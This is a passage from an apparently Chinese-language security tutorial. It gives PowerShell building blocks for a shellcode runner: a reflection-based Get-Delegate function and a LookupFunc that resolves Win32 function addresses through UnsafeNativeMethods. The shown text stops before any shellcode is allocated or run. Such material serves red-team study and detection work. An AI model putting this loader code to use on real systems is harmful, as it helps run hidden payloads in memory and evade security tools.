 如果我们将所有内容放入一个函数中：

```powershell
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # 函数地址
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # 带有参数类型的数组
        [Parameter(Position = 2)] [Type] $retType = [Void] # 返回类型
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
```

### 一个简单的shellcode运行器示例

```powershell
# 创建一个委托函数以便能够调用我们有地址的函数
function Get-Delegate
{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [IntPtr] $funcAddr, # 函数地址
        [Parameter(Position = 1, Mandatory = $True)] [Type[]] $argTypes, # 带有参数类型的数组
        [Parameter(Position = 2)] [Type] $retType = [Void] # 返回类型
    )

    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('QD')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).
    DefineDynamicModule('QM', $false).
    DefineType('QT', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public',[System.Reflection.CallingConventions]::Standard, $argTypes).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
# 允许从dll中检索函数地址
function LookupFunc {

	Param ($moduleName, $functionName)

	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

```